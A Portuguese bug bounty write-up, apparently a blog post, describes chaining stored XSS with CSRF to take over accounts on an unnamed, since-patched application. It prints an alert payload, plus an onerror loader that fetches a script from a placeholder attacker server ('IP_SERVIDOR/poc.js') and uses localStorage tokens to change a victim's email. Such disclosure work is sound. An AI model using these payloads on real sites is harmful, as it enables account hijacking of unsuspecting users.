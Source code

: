 ```yaml
---
layout: post
title:  "Bug Bounty 01 - Account Takeover via CSRF + XSS Stored"
date:   2019-06-03 11:08:00
categories: All
img: bug_bounty.png
---
```

<p align="justify">
Fala galera, neste post irei falar sobre uma vulnerabilidade que encontrei em um programa na plataforma <a href="https://bugcrowd.com" target="_blank">Bugcrowd</a>. A falha já foi corrigida mais infelizmente o vendor não me autorizou a fazer o disclosure, então iremos chamar o site de domain.com :)
</p>

<p align="justify">
A aplicação permite que você crie uma instância e adicione vários tipos de funcionalidades, como alertas, serviços, usuários, times etc.
<br>
Ao criar um serviço, é necessário que você aloque um time para que eles fiquem encarregados de cuidar deste serviço criado. Dentro de um serviço, era possível adicionar ações específicas para que cada usuário fosse capaz de executar ao realizar determinada tarefa.
</p>

<p align="justify">
Nessas ações, verifiquei que ao executá-la um pop-up era aberto com o nome da ação executada, ou seja, o nome da ação era refletido nesse pop-up.
<br>
Decidi então adicionar uma tag HTML e um evento JS simples, inseri <code>&lt;img src="x" onerror="alert(1)"/&gt;</code>, e ao clicar na ação maliciosa, o nome foi refletido novamente, sem nenhum tipo de filtro, e o alerta "subiu" :) (opaaaaa)
<br>
<img src="/images/bug_bounty/bb01/bb01-00.png"/>
<br>
<img src="/images/bug_bounty/bb01/bb01-01.png"/>
<br>
Bom, neste ponto, eu já tinha um XSS Stored. Vi como funcionava a aplicação, e notei que havia como um usuário fazer a troca do email, então tive a sacada, eu poderia utilizar de um CSRF junto com o XSS para realizar o Account Takeover.
</p>

<p align="justify">
Basicamente, o CSRF consistia em uma request POST simples para o endpoint que realizava a troca do email, decidi criar um arquivo javascript com o exploit (ele está disponível no meu github, vou deixar o link no final do report :) ) para que não ficasse muito código dentro do campo da ação.
<br>
<br>
Utilizei o seguinte código para carregar o exploit quando o usuário executar a ação maliciosa dentro do serviço:
<br>
<code>&lt;img src="x" onerror="var script = document.createElement('script'); script.src = 'IP_SERVIDOR/poc.js'; document.getElementsByTagName('head')[0].appendChild(script);"/&gt;</code> 
<br>
<br>
<img src="/images/bug_bounty/bb01/bb01-02.png">
<br>
<img src="/images/bug_bounty/bb01/bb01-03.png">
<br>
Com isso, ao executar a ação maliciosa no serviço, o pop-up seria mostrado e o código executado.
</p>

<p align="justify">
Mas.... Para realizar a requisição, era necessário que fosse enviado junto da request, o token CSRF e o ID do usuário. Depois de fuçar um pouco a aplicação, notei que eles estavam sendo armazenados no localStorage (this is very good :) ), então tive apenas que capturar eles via JS e enviá-los juntos da requisição POST.
<br>
<img src="/images/bug_bounty/bb01/bb01-00.png"/>
</p>

<p align="justify">
Depois de realizar todo o processo, era necessário apenas adicionar as vítimas ao time, e atribuir um serviço com uma ação maliciosa a esse time, vale lembrar que não era necessário que as vítimas tivessem contas já criadas, pois o sistema verificava e caso não houvesse, era criado uma nova conta.
<br>
<br>
</p>

<p align="justify">
Como PoC, irei colocar alguns prints tirados do vídeo, então vamos lá :)
<br>
<br>
Primeiramente, o email da vítima permanece normalmente:
<br>
<img src="/images/bug_bounty/bb01/bb01-04.png">
<br>
<br>
Quando a vítima entrasse no seriço malicioso e fosse realizar alguma ação, esta seria a visão dele:
<br>
<img src="/images/bug_bounty/bb01/bb01-03.png">
<br>
<br>
Ao clicar na última ação, o pop-up era mostrado:
<br>
<img src="/images/bug_bounty/bb01/bb01-00.png">
<br>
<br>
E em background a ação da troca de email era realizada:
<br>
<img src="/images/bug_bounty/bb01/bb01-05.png">
<br>
<br>
Como resultado, o email da vítima foi trocado:
<br>
<img src="/images/bug_bounty/bb01/bb01-06.png">
<br>
<br>
Um link de confirmação foi enviado para o email do atacante, e ao confirmar o novo email, a conta da vítima teria o seu email trocado:
<br>
<img src="/images/bug_bounty/bb01/bb01-09.png">
<br>
Infelizmente, não posso divulgar o vídeo da PoC, pois como foi dito no início, o vendor não autorizou que fosse divulgado a vulnerabilidade.
</p>

<p align="justify">
Como prometido, o exploit pode ser encontrado neste link: <a href="https://github.com/vitor-fernandes/exploits/blob/master/poc.js" target="_blank" style="color: blue"><b>Exploit</b></a> 
</p>